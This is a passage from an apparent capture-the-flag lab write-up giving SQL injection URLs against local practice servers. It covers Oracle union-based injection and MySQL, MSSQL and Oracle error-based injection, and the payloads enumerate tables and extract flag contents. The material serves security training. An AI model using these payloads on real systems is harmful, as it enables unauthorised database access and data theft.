 1. `http://127.0.0.1:8085/?id=1 AND 1=2 UNION SELECT '1', '2' FROM dual`
    - ![](https://i.imgur.com/QNIq9Zm.png)
2. `
http://127.0.0.1:8085/?id=1 AND 1=2 UNION SELECT
((SELECT OBJECT_NAME FROM (SELECT OBJECT_NAME FROM user_objects WHERE object_type='TABLE' ORDER BY created DESC) WHERE ROWNUM < 3)
MINUS
(SELECT OBJECT_NAME FROM (SELECT OBJECT_NAME FROM user_objects WHERE object_type='TABLE' ORDER BY created DESC) WHERE ROWNUM < 2)), '2' FROM dual
`
    - ![](https://i.imgur.com/1olPXIh.png)
3. `http://127.0.0.1:8085/?id=1 AND 1=2 UNION SELECT column_name, '2' FROM all_tab_columns WHERE table_name='FLAGS'`
    - ![](https://i.imgur.com/cNRk1b4.png)
4. `http://127.0.0.1:8085/?id=1 AND 1=2 UNION SELECT content, '2' FROM flags`
    - ![](https://i.imgur.com/SzlUNtL.png)

**Flag: `CTF{0r4cl3_61mm3_r4cl3}`**

## 0x07 MySQL ERROR based SQLi Practice

1. `http://127.0.0.1:8086/?id=1 AND (updatexml(null, concat(0x3a, (SELECT user())), null))=1`
    - ![](https://i.imgur.com/lQphddf.png)
2. `http://127.0.0.1:8086/?id=1 AND (SELECT 1 FROM(SELECT count(*), concat(floor(rand(1337)*2),(SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1)) AS x FROM information_schema.tables GROUP BY x)AS b)`
    - ![](https://i.imgur.com/R8H71UJ.png)
3. `http://127.0.0.1:8086/?id=1 AND (SELECT 1 FROM(SELECT count(*), concat(floor(rand(1337)*2),(SELECT content FROM flags LIMIT 1,1)) AS x FROM information_schema.tables GROUP BY x)AS b)`
    - ![](https://i.imgur.com/C0y33qz.png)

**Flag: `CTF{3rr0r_5ql_2nj3c710n_15_345y}`**

## 0x08 MSSQL ERROR based SQLi Practice

1. `http://127.0.0.1:8087/?id=4 AND (SELECT TOP 1 table_name FROM information_schema.tables)=0`
    - ![](https://i.imgur.com/ftu5pIj.png)
2. `http://127.0.0.1:8087/?id=4 and (SELECT TOP 1 content From (SELECT Top 2 content FROM Flags ORDER BY content)x)=1`
    - ![](https://i.imgur.com/BE3l9cA.png)

**Flag: `CTF{un1v3r54l_l337}`**

## 0x09 Oracle ERROR based SQLi Practice

1. `http://127.0.0.1:8088/?id=1 and CTXSYS.DRITHSX.SN(user, (((SELECT OBJECT_NAME FROM (SELECT OBJECT_NAME FROM user_objects WHERE object_type='TABLE' ORDER BY created DESC) WHERE ROWNUM < 3) MINUS (SELECT OBJECT_NAME FROM (SELECT OBJECT_NAME FROM user_objects WHERE object_type='TABLE' ORDER BY created DESC) WHERE ROWNUM < 2))))=1`
    - ![](https://i.imgur.com/WHuHdGD.png)
2. `http://127.0.0.1:8088/?id=1 and CTXSYS.DRITHSX.SN(user, (((SELECT content FROM flags WHERE ROWNUM < 3) MINUS (SELECT content FROM flags WHERE ROWNUM < 2))))=1`
    - ![](https://i.imgur.com/ad7FYuv.png)
